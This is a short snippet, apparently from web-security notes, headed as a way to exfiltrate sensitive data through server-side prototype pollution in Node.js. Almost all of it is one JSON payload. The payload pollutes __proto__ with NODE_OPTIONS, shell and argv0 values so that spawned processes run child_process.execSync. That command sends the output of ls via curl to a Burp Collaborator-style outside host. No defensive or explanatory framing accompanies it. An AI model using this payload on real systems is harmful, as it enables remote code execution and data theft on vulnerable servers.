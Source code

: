 


### Exfiltrating sensitive data via server-side prototype pollution\
Payload
```node

'{
	"__proto__": 
	{
		"NODE_OPTIONS": "--require /proc/self/cmdline", 
		"shell": "node",
		"argv0": "require('child_process').execSync('curl `ls ` burpsuite-collbabrator') //"
	}
}'
```